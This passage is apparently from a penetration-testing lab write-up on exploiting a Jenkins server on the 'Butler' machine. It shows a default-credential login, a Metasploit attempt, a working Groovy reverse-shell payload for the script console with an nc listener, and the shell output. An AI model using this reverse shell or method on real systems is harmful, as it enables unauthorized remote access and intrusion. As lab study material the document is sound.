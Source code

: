  * Brute-force is successful as we get jenkins:jenkins as credentials for login.

  * Information disclosure - Jetty(9.4.41.v20210516) and Jenkins 2.289.3 used.

  * On searching for Jenkins exploits, we get a lot of results with Groovy being used. Furthermore, there is a part in the Jenkins website which uses Groovy in a script console, so we can search for vulnerabilities related to RCE (Remote Code Execution).

  * Using Metasploit to attempt exploitation:

    ```shell
    msfconsole

    use exploit/multi/http/jenkins_script_console

    options

    set RHOSTS 10.0.2.80

    set RPORT 8484

    set TARGETURI /

    show targets

    set target 0

    options

    exploit

    #this did not work, so we will try another method
    ```

  * Exploiting through Jenkins script console:

    ```shell
    #in terminal
    nc -nvlp 6666

    #in the script console in Jenkins
    String host="10.0.2.7";
    int port=6666;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

  * This works and we are able to gain access into the Butler machine:

    ```shell
    #currently in C:\Program Files\Jenkins
    
    whoami #butler\butler
    #we have to use privilege escalation now, to get root access

    systeminfo #gives complete info
    #OS Name - Microsoft Windows 10 Enterprise Evaluation
    #OS Build - 10.0.19043 N/A Build 19043
    ```

